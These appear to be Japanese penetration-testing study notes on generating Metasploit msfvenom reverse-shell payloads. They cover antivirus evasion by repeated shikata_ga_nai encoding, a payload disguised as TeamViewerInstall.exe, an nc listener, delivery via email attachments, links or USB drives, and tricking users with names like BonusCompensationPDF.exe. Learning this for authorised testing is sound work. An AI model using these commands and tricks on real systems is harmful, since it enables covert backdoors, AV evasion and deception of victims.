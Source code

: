 エンコードなし
```shell-session
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```

#### AVの回避
最近のAVでは、それぞれのエンコードを一回行っても全然検知されてしまう
- 1つの簡単なAV回避の方法は、同じエンコーディングを反復してエンコードしてみること
	- でも全然回避できないことが多いから、他の方法を使ったほうがいい
```shell-session
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```
- Metasploitは、APIキーでペイロードを分析することができる`msf-virustotal`と呼ばれるツールを提供しているから、それで確認して、AVの回避を向上させるのも面白いかもしれない
	- VirusTotalへの無料登録が必要
こんな感じで使えるらしい
```shell-session
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

### 実行手順の流れ
1. 攻撃者が `msfvenom` コマンドでペイロードを生成（`createbackup.elf`）
2. 攻撃者側がリスナーを開いて待ち受けておく
	- `sudo nc -lvnp 443`
3. ターゲットにいずれかの方法でダウンロードさせる
##### Linux・Windows共通
- ファイル添付メール
- ウェブサイトのダウンロードリンク
- Metasploitエクスプロイトモジュールと組み合わせる（これはおそらく、すでに内部ネットワーク上にいる必要があります）。
- オンサイト侵入テストの一環として、フラッシュドライブを介して。
##### Windows
- Impacket
	- ネットワーク プロトコルと直接対話する方法を提供する Python の組み込みツールセット
	- `psexec`、`smbclient`、`wmi`、Kerberos、およびSMBサーバーをスタンドアップする能力を扱っているコマンド
- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Download%20and%20Execute.md): は、ホスト間でファイルを便利に転送するのに役立つ迅速なワンライナーを見つけるための優れたリソース
- SMB
	- 被害者のホストがドメインに参加し、共有を利用してデータをホストする場合に特に便利
	- 攻撃者として、これらのSMBファイル共有を`C$`と`admin$`とともに使用して、ペイロードをホストして転送し、リンクを介してデータを流出させることさえできた
- `Remote execution via MSF`
	- Metasploitの多くのエクスプロイトモジュールに組み込まれているのは、ペイロードを自動的に構築、ステージング、実行する関数
- 他のプロトコル
	- ホストを見ると、FTP、TFTP、HTTP/Sなどのプロトコルは、ホストにファイルをアップロードする方法をがあるかも
	- オープンで使用できる機能を列挙して探そう！

4. ターゲットで `createbackup.elf` を実行（適宜権限を付与し実行）
5. 実行されたプログラムが `LHOST` : `LPORT` へ接続
6. ncで待ち受けていた攻撃者側がシェルを取得できる
- Windowsでは、`encoding`や`encryption`がなければ、この形式のペイロードはほぼ確実にWindows Defender AVによって検出される
- BonusCompensationPDF.exeなんだけど、一般の人はあんまり拡張子をつけないから実行できるとかね
